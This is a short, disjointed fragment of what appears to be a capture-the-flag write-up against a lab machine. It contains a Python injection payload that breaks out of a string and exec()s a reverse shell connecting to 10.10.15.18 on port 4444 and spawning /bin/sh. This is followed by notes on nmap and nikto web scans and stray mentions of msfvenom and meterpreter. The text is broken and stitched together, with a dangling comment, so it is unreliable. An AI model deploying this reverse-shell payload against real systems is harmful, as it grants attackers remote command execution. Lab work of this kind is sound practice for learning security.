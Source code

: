 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules
               msfvenom
               meterpreter
